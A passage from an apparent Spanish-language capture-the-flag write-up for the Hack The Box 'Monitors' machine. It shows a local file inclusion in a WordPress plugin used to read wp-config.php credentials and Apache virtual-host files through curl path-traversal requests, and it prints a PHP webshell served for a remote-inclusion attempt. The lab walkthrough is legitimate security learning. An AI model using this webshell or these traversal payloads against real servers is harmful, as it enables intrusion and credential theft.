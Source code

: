 Si vemos la parte del `PoC` nos daremos cuenta de como se produce el **LFI**.

Bien, sigamos el `Proof of Concept` para ejecutar el **LFI**:

![image](https://user-images.githubusercontent.com/67548295/136807447-ab94f50f-cde0-4934-8d48-98a3c9210fdf.png)

Tenemos capacidad para leer archivos de la máquina.

Ahora probemos el **RFI** creando un servidor en nuestra máquina que aloje una `webshell`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ cat zeroshell.php 
gif8;

<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; 
?>
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ authbind python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
![image](https://user-images.githubusercontent.com/67548295/136808071-3bcd6eb2-6c3a-45f0-989b-6a283c32a47a.png)

Tras probar el **RFI**, me doy cuenta de que **no se interpreta el codigo PHP**, así que me centro en el **LFI**.

Pienso en **archivos críticos** que podamos leer y uno que se me viene a la cabeza es el `wp-config.php` que **suele contener credenciales**.

Pero claro, no se en que ruta está, así que voy probando hasta que lo encuentro:

![image](https://user-images.githubusercontent.com/67548295/136811060-ed310710-589d-4020-bbe5-158cb1d8d93d.png)

Y como suponía, este archivo contenía **crendenciales en texto claro**.

Pruebo estas credenciales en el **panel de login** `wp-login.php`

![image](https://user-images.githubusercontent.com/67548295/136933873-151278ac-df7f-4f8e-b009-6ee7b4b46fa9.png)

Pero no consigo acceder.

Sigo enumerando archivos críticos desde el LFI y pruebo a intentar enumerar **dominios y subdominios** que también esten empleando `virtual hosting` en la máquina víctima.

Concretamente, esto se puede ver en el archivo `/etc/apache2/sites-enabled/000-default.conf`.

Probemos a ver si funciona:
```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ curl "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../../../etc/apache2/sites-enabled/000-default.conf"
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

[...]

```
